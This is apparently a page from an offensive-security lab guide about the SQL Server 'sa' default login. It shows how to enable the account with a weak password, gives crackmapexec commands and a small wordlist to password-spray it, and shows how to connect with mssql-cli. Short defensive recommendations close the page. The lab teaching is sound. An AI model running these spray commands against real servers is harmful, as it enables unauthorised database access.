 ```yaml
---
description: >-
  By default the SA user is NOT enabled. Administrators might enable it during
  the installation and choose a weak password.
---
```


# SQL Server default login

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.

2\. Open "Microsoft SQL Server Management Studio"

![](<../../.gitbook/assets/image (32) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

4\. Expand the "Security" and "Logins" folders. Right click "sa" and select "Properties". Make sure "Enforce password policy" is unchecked and fill in the password `sa` twice.

![](<../../.gitbook/assets/image (5).png>)

## Attacking

### How it works

One of the default users (not enabled by default) for SQL Server is the SA user. Administrators might enable it during the installation and choose a weak password, such as the username.

### Tools

* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* mssql-cli

### Executing the attack

1. Check if the MSSQL server on WEB01 can be contacted from our Kali machine:

```
crackmapexec mssql 10.0.0.5 -d .
```

![](<../../.gitbook/assets/image (64).png>)

2\. Paste the following passwords in `passwords.txt` to spray with:

```
Password
Password01!
Password1!
Welcome01!
Welcome01
Welcome1!
Welcome1
sa
```

![](<../../.gitbook/assets/image (41).png>)

3\. Run crackmapexec to connect to the MSSQL service and passwordspray the passwords till there is a successfull login:

```
crackmapexec mssql 10.0.0.5 -u sa -p passwords.txt --local-auth
```

![](<../../.gitbook/assets/image (39).png>)

We got a succesfull login as the `sa` user with the password `sa`.

4\. Run crackmapexec again with the password sa and use the `-q` flag to try to execute the query `select @@version` to retrieve the MSSQL version.

```
crackmapexec mssql 10.0.0.5 -u sa -p sa --local-auth -q "select @@version;"
```

![](<../../.gitbook/assets/image (15).png>)

5\. Connect to the database using mssql-cli.

```
mssql-cli -S 10.0.0.5 -U sa -P sa
```

![](<../../.gitbook/assets/image (4).png>)

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../active-directory-attacks/sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../active-directory-attacks/sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Make sure the password policy is enforced for all users on the SQL server.
* Dont use the sa account, this account is well to known and attackers will attempt to brute-force it.

### Detection



## References

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15" %}
